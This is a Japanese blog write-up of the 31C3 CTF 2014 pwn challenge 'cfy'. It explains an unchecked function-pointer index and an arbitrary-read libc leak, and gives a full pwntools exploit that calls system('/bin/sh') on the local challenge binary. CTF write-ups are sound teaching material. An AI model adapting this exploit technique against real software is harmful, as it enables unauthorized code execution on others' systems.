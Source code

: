 ```yaml
---
layout: post
redirect_from:
  - /writeup/ctf/2014/31c3-ctf-2014-cfy/
  - /blog/2016/02/18/31c3-ctf-2014-cfy/
date: 2016-02-18T10:32:58+09:00
tags: [ "ctf", "writeup", "pwn", "31c3-ctf" ]
---
```


# 31C3 CTF 2014: cfy

libcの特定をする必要があると知った回。(してなかった)

## [cfy](https://github.com/ctfs/write-ups-2014/tree/master/31c3-ctf-2014/pwn/cfy)

``` sh
$ file cfy
cfy: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=f023c69bba5f53464912a2501e87fb098e19af5d, not stripped

$ checksec --file cfy
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   cfy

$ ./cfy
What do you want to do?
0) parse from hex
1) parse from dec
2) parse from pointer
3) quit
0

Please enter your number: 10
dec: 16
hex: 0x10

What do you want to do?
0) parse from hex
1) parse from dec
2) parse from pointer
3) quit
3
have a nice day
```

### 攻撃

`2) parse from pointer`を選ぶと好きなアドレスを読むことができる。これにより、libcのbase addressが判明する。

`parsers`という関数ポインタの配列を持っており、与えられた入力をindexとして参照するが、indexの範囲のチェックをしていない。
大きな値を与えると別の入力である`buf`上に乗ったアドレスを`call`させられる。(しかも`buf`を引数として与えて呼び出す。)

これにより`system("/bin/sh");`を叩ける。

``` sh
$ readelf -s cfy
    59: 0000000000601080    48 OBJECT  GLOBAL DEFAULT   24 parsers
    72: 00000000006010e0  1024 OBJECT  GLOBAL DEFAULT   25 buf
    74: 000000000040080c   278 FUNC    GLOBAL DEFAULT   13 main
    75: 0000000000400785    20 FUNC    GLOBAL DEFAULT   13 from_ptr
    79: 0000000000400761    36 FUNC    GLOBAL DEFAULT   13 from_dec
    80: 000000000040073d    36 FUNC    GLOBAL DEFAULT   13 from_hex
```

### 実装

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools

elf = ELF('./cfy')
choice_call_buf = 6 # if you choose 6, it calls buf
choice_distance = 1<<4

context.log_level = 'debug'

# local
p = process('./cfy')
libc = ELF('/usr/lib/libc.so.6')

p.recvuntil('What do you want to do?\n')
p.sendline('2')
p.recvuntil('Please enter your number: ')
p.sendline(p64(elf.got['puts']))
p.recvline()
libc_base = int(p.recvline().split()[1], 16) - libc.symbols['puts']

p.recvuntil('What do you want to do?\n')
p.sendline('0')
p.recvuntil('Please enter your number: ')
p.sendline('A' * choice_distance + p64(libc_base + libc.symbols['system']))

p.recvuntil('What do you want to do?\n')
p.sendline(str(choice_call_buf + 1))
p.recvuntil('Please enter your number: ')
p.sendline('/bin/sh')

p.sendline('ls')
p.interactive()
```

---

# 31C3 CTF 2014: cfy

-   Thu Feb 18 18:50:53 JST 2016
    -   libcに関して追記

